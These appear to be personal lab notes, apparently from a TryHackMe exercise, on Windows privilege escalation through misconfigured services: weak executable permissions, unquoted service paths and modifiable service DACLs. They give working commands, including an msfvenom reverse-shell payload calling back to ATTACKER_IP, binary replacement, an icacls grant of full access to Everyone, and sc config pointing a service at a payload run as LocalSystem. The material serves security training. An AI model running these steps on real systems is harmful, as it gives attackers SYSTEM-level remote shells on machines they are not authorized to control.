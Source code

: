 `HKLM\SYSTEM\CurrentControlSet\Services\` | all service configs stored in this location (view in registry editor), image path and object name show the exe running and the service start name
--
`sc qc` | checks service configuration
--
**insecure permissions on service exe**
--
if the executable associated with a service has weak permissions that allows attacker to modify or replace, privledges can be gained of the service account easily
--
1. check icacls of service - look for (M) or (F) - check for everyone group or users group
2. create a payload with msfvenom to take its place | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-3. svc.exe`
3. serve it with python http
4. user powershell to wget the file
5. change to the directory of the service
6. `move WService.exe WService.exe.bkp` | move process to backup
7. `move C:\Users\thm-unpriv\rev-svc.exe WService.exe` | move payload to directory
8. `icacls WService.exe /grant Everyone:F` | grantfull access to all users
9. restart service | `sc stop windowsscheduler` + `sc start windowsscheduler` | USE CMD
--
**Unquoted Service Paths**
--
when we can directly write into service executables, theres a chance to force a service to run arbitrary executables by using an obsecure feature
different behaviour occurs when the service is configured to point to an "unquoted" executable (meaning the path isnt properaly quoted to acount for spaces on the command
--
when unquoted it doesnt know which binary you are trying to execute, which could be multiple
spaces are used as an argument separater unless it is a quoted string
--
for example:
`C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` becomes `C:\MyPrograms\Disk.exe`
--
it will search in order for the shortest name to the longest name to run the exe instead of failing
this gives us space to have it launch our own crafted executable
--
most services are in program files/(x86) which isnt writable for unpriv users
--
we wanna look for AD and WD permissins using `icacls` for dirs we can put out payload in
--
make a payload and put it in a writable directory, with a name like mentioned above
stop and start the service to gain a shell
--
**Insecure Service Permissions**
--
should all the above be secure there is still a chance of the service DACL to allow you to modify the configuration of a service.
then we can point to any executable with any account including system itself
--
to check for a service DACL from the commnad line you can use Accesschk from sysinternals suite - may not be included on machine
`accesschk64.exe -qlc <service>` | look for Users SERVICE_ALL_ACCESS permission, meaning any user can reconfigure the service
--
create payload and send to system with http server and wget
grant permissions with icacls
`sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem` | reconfigure
start and stop service
all steps are the same for all exploits as insecure permissions on service exe
--
**dangerous privileges**
--
**windows priv**